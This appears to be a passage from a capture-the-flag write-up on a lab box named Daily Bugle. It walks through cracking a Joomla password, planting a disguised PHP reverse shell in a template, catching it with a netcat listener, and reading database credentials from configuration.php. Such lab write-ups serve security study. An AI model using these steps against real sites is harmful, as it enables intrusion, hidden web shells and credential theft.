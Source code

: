 Awesome, the rockyou.txt and john were able to easily crack the super secure **spiderman123** password!

**3) What is the user flag?**

Let's take a shot in the dark real quick and see if root has the same password as the Joomla user (Jonah) we found in ssh.

No luck, so we'll be moving on. Since we have a super user, let's navigate to the administrator directory that joomscan found earlier (http://10.10.234.214/administrator/) and see what privileges we have.

It looks like we can do Extensions> Templates> Templates and edit the Protostar Details and Files.

* Create a new php file, name it something like errorEN.php to hide it.
* Put in the php reverse shell code and save.
* Setup reverse shell with correct port and openVPN tun0-IP.
* Make a netcat listener on port 6666 and execute a url-encoded reverse shell. (I use rlwrap to use arrowkeys in terminal)

```
rlwrap nc -lvnp 6666
```

* Navigate to the shell you created.

```   
listening on [any] 6666 ...
connect to [Tun0-IP] from (UNKNOWN) [10.10.234.214] 51230
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 13:02:16 up 49 min,  0 users,  load average: 0.00, 0.01, 0.20
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ 
```

**4) What is the root flag?**

Now that we have a shell, let's go ahead and search the directory we are in for any information.

First, we want to run a whoami and check for any users in home. We can see jjameson exists.

We see a configuration.php file in **/var/www/html**.

```
sh-4.2$ cat configuration.php
cat configuration.php
<?php
class JConfig {
        public $offline = '0';
        public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
        public $display_offline_message = '1';
        public $offline_image = '';
        public $sitename = 'The Daily Bugle';
        public $editor = 'tinymce';
        public $captcha = '0';
        public $list_limit = '20';
        public $access = '1';
        public $debug = '0';
        public $debug_lang = '0';
        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'root';
        public $password = 'nv5uz9r3ZEDzVjNu';
        public $db = 'joomla';
        public $dbprefix = 'fb9j5_';
        public $live_site = '';
```